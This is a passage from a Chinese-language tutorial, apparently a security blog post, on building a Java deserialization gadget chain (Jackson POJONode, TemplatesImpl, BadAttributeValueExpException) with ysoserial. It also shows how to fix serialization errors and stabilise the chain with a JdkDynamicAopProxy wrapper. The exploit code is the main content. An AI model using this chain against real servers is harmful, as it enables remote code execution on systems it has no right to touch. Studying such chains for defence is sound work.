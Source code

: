 ```java
        oos.close();
        return baos.toByteArray();
    }
}
```

4、使用ysoserial重写上面的代码

> 在ysoserial中作者已经封装了一些方法，方便我们直接调用

```java
// Gadgets#createTemplatesImpl方法创建TemplatesImpl类，在ysoserial中该方法已经封装了上面代码的1、2步，这里我们传入正确的参数后直接调用即可
final TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl(command,TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
POJONode jsonNodes = new POJONode(templatesImpl);
// 上面代码的第3步
BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
Field val = exp.getClass().getDeclaredField("val");
val.setAccessible(true);
val.set(exp,jsonNodes);
// 序列化，可以直接调用PayloadRunner#run方法
PayloadRunner.run(test.class, args);
```

0x03 踩坑
-------

1、序列化过程中报错

![image-20231109165415125](https://shs3.b.qianxin.com/butian_public/f98344923fe78ae4396273cd368c7b211bc589e365b65.jpg)

原因：在`ObjectOuptputStream#writeObject0`方法中，如果序列化的类实现了`writeReplace()`方法，将会在序列化过程中调用它进行检查抛出异常中止序列化，我们发现在BaseJsonNode类中实现了这个方法；

解决：序列化时只要不经过 `BaseJsonNode#writeReplace`方法就行（我们可以重写该方法或在父类中删除该方法）

2、反序列化过程中报错

![image-20231109170125568](https://shs3.b.qianxin.com/butian_public/f94820174fdc64d610b0a17c686f86c6ca22f210122d1.jpg)

原因：反射 `getDeclaredMethods` 获取到方法的顺序是不确定的，最终导致执行相关getter方法的顺序也是不确定的，造成反序列化链不稳定；当 TemplatesImpl类的 `getStylesheetDOM()` 方法先于 `getOutputProperties()` 方法执行时就会导致空指针异常从而导致调用链报错中断，导致exp利用失败。

解决：利用 JdkDynamicAopProxy类进行封装使链子稳定触发，这里参考文章：[关于java反序列化中jackson链子不稳定问题](https://pankas.top/2023/10/04/%E5%85%B3%E4%BA%8Ejava%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADjackson%E9%93%BE%E5%AD%90%E4%B8%8D%E7%A8%B3%E5%AE%9A%E9%97%AE%E9%A2%98/)：

```java
Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
cons.setAccessible(true);
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templatesImpl);
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
POJONode jsonNodes = new POJONode(proxyObj);
```
